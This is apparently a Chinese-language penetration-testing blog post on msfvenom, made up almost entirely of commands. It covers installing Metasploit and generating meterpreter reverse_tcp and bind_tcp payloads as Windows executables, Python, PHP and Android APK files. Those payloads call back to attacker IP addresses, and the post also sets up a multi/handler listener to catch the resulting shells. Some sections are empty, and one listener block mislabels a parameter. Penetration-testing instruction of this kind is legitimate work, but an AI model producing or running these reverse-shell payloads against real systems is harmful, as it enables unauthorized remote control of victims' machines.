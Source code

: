 ```yaml
---
layout: post
title:  "内网渗透之msfvenom"
categories: 内网渗透
tags: 工具 msfvenom
author: 0e0w
---
```


* content
{:toc}
这是一篇关于msfvenom文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文创建时间为2020年6月4日，最近一次更新时间为2020年8月21日。本文会不定期更新。
> 关于什么是msfvenom？更多详细内容见 [msfvenom官网](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)、[如何使用](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)。

## 0x01 msfvenom概述

### 一、安装方式

msfvenom是msfpayload和msfencode的组合，安装msf之后便可使用。

一键安装msf

>curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \chmod 755 msfinstall && \./msfinstall

更新msf
>
sudo msfupdate
>

### 二、基础介绍

msfvenom一般需要配合msf进行利用。使用msfvenom生成shellcode，使用msf进行监听，在靶机上运行shellcode。msfvenom几乎支持生成各种平台的shellcode。是后渗透测试过程中强大的武器之一。

## 0x02 msfvenom命令

- msfvenom -h #查看帮助
- msfvenom -l payloads #查看支持生成的payload
- msfvenom -l archs #查看支持的系统架构
- msfvenom -l platforms #查看支持的平台
- msfvenom -l encrypt #查看所有的加密方式
- msfvenom -l encoders #查看所有的编码器

例：

> msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式  -i编码次数 -f 输出格式 -o 输出文件

> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=111.231.228.112 lport=6059 -i 3 -e x86/shikata_ga_nai -f exe -o x86reverse_tcp.exe
>

## 0x03 msfvenom利用

**MSF监听器**

- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp
- set lhost 111.111.111.112
- set lport 6095
- exploit -j

- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp #设置成payload的模式
- set rhost 111.111.111.112
- set lport 6095
- exploit -j

- sessions -i 2

- shell

### 一、exe

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x86reverse_tcp.exe
- msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x64reverse_tcp.exe

靶机有公网ip

- msfvenom -p windows/x64/meterpreter/bind_tcp lport=6095 -f exe -o bind_tcp.exe

### 二、Linux

### 三、Python

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f py -o x86reverse_tcp.py

靶机有公网ip

- msfvenom ­-p windows/x64/meterpreter/bind_tcp lport=6095 ­-f py -o exp.py

### 四、PHP

- msfvenom -p php/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=6095 -f raw -o session.php

### 五、Android

- msfvenom -p android/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=80 -o msf.apk 

参考：https://blog.csdn.net/caiqiiqi/article/details/84102629

### 五、apple_ios

## 0x99 参考链接

- http://www.0e0w.com/


